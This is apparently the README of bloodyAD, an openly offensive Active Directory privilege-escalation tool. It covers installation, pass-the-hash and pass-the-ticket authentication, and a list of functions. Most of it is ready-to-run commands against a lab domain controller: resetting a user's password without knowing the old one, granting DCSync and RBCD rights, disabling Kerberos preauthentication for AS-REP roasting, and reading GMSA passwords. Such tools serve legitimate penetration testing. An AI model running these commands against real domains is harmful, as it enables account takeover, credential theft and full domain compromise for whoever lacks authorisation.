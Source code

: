 > :warning: autobloody has been moved to its own [repo](https://github.com/CravateRouge/autobloody)  

# ![bloodyAD logo](https://repository-images.githubusercontent.com/415977068/9b2fed72-35fb-4faa-a8d3-b120cd3c396f) bloodyAD

`bloodyAD.py` is an Active Directory privilege escalation swiss army knife

## Description

This tool can perform specific LDAP/SAMR calls to a domain controller in order to perform AD privesc.

`bloodyAD` supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc.

It is designed to be used transparently with a SOCKS proxy.

## Installation

First if you run it on Linux, you must have `libkrb5-dev` installed on your OS in order for kerberos to work:
```ps1
# Debian/Ubuntu/Kali
apt-get install libkrb5-dev

# Centos/RHEL
yum install krb5-devel

# Fedora
dnf install krb5-devel

# Arch Linux
pacman -S krb5
```

A python package is available:

```ps1
pip install bloodyAD
bloodyAD --host 172.16.1.15 -d bloody.local -k changePassword john.doe 'Password123!'
```

Or you can clone the repo:

```ps1
git clone --depth 1 https://github.com/CravateRouge/bloodyAD
pip install .
bloodyAD --host 172.16.1.15 -d bloody.local -k changePassword john.doe 'Password123!'
```

### Dependencies

- Python 3
- DSinternals
- Impacket
- Ldap3
- Gssapi (linux) or Winkerberos (Windows)

## Usage

Simple usage:

```ps1
bloodyAD --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 changePassword john.doe 'Password123!'
```

**Note:** You can find more examples on <https://cravaterouge.github.io/>

List of all available functions:

```ps1
[bloodyAD]$ bloodyAD -h
usage: bloodyAD [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k] [-c CERTIFICATE] [-s] [--host HOST]
                   {getObjectAttributes,setAttribute,addUser,addComputer,delObject,changePassword,addObjectToGroup,addForeignObjectToGroup,delObjectFromGroup,getChildObjects,setShadowCredentials,setGenericAll,setOwner,setRbcd,setDCSync,setUserAccountControl}
                   ...

AD Privesc Swiss Army Knife

Main options:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain used for NTLM authentication
  -u USERNAME, --username USERNAME
                        Username used for NTLM authentication
  -p PASSWORD, --password PASSWORD
                        Cleartext password or LMHASH:NTHASH for NTLM authentication
  -k, --kerberos
  -c CERTIFICATE, --certificate CERTIFICATE
                        Certificate authentication, e.g: "path/to/key:path/to/cert"
  -s, --secure          Try to use LDAP over TLS aka LDAPS (default is LDAP)
  --host HOST           Hostname or IP of the DC (ex: my.dc.local or 172.16.1.3)

Commands:
  {getObjectAttributes,setAttribute,addUser,addComputer,delObject,changePassword,addObjectToGroup,addForeignObjectToGroup,delObjectFromGroup,getChildObjects,setShadowCredentials,setGenericAll,setOwner,setRbcd,setDCSync,setUserAccountControl}
                        Function to call
```

Help text to use a specific function:

```ps1
[bloodyAD]$ bloodyAD --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 changePassword -h
usage: 
    Change the target password without knowing the old one using LDAPS or RPC
    Args:
        identity: sAMAccountName, DN, GUID or SID of the target (You must have write permission on it)
        new_pass: new password for the target
    
       [-h] [func_args ...]

positional arguments:
  func_args

optional arguments:
  -h, --help  show this help message and exit
  ```

## How it works

bloodyAD communicates with a DC using mainly the LDAP protocol in order to get information or add/modify/delete AD objects. ~~A password cannot be updated with LDAP, it must be a secure connection that is LDAPS or SAMR. A DC doesn't have LDAPS activated by default because it must be configured (with a certificate) so SAMR is used in those cases.~~ Exchange of sensitive information such as passwords are now supported using cleartext LDAP.

## Useful commands

```ps1
# Get group members
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes Users member 

# Get minimum password length policy
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' minPwdLength

# Get AD functional level
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' msDS-Behavior-Version

# Get all users of the domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' user

# Get all computers of the domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' computer

# Get all containers of the domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' container

# Enable DONT_REQ_PREAUTH for ASREPRoast
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 setUserAccountControl john.doe 0x400000

# Disable ACCOUNTDISABLE
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 setUserAccountControl john.doe 0x0002 False

# Get UserAccountControl flags
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes john.doe userAccountControl

# Read GMSA account password
bloodyAD -u john.doe -d bloody -p Password512 --host 192.168.10.2 getObjectAttributes gmsaAccount$ msDS-ManagedPassword

# Read quota for adding computer objects to domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' ms-DS-MachineAccountQuota
```

